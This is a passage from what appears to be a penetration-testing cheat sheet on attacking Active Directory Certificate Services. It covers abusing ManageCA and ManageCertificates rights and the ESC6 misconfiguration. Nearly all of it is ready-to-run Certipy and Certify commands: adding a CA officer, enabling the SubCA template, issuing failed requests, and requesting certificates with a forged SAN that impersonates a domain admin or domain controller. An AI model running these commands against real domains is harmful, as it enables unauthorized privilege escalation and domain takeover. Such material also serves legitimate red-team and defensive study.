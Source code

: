 This ID can be used by a user with the **ManageCA** _and_ **ManageCertificates** rights to validate the failed request. Then, the user can retrieve the issued certificate by specifying the same ID.

* With **ManageCA** right it is possible to promote new officier and enable templates

```bash
# Add a new officier
certipy ca -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -add-officier 'user'

# List all the templates
certipy ca -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -list-templates

# Enable a certificate template
certipy ca -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -enable-template 'SubCA'
```

* With **ManageCertificates** AND **ManageCA** it is possible to issue certificate from failed request

```bash
# Issue a failed request (need ManageCA and ManageCertificates rights for a failed request)
certipy ca -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -issue-request 100

# Retrieve an issued certificate
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -target 'ca_host' -ca 'ca_name' -retrieve 100
```

## CA Configuration - ESC6

If the CA flag **EDITF\_ATTRIBUTESUBJECTALTNAME2** is set, it is possible to specify a SAN in any certificate request

### Windows

```powershell
# Find info about CA
Certify.exe cas

# Find template for authent
Certify.exe /enrolleeSuppliesSubject
Certify.exe /clientauth

# Request certif with SAN
Certify.exe request /ca:'domain\ca' /template:"Certificate template" /altname:"admin"
```

### Linux

```bash
# Verify if the flag is set
certipy find -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -stdout | grep "User Specified SAN"

#To specify a user account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -template 'vulnerable template' -upn 'domain admin'

#To specify a computer account in the SAN
certipy req -u 'user@contoso.local' -p 'password' -dc-ip 'DC_IP' -ca 'ca_name' -template 'vulnerable template' -dns 'dc.contoso.local'
```
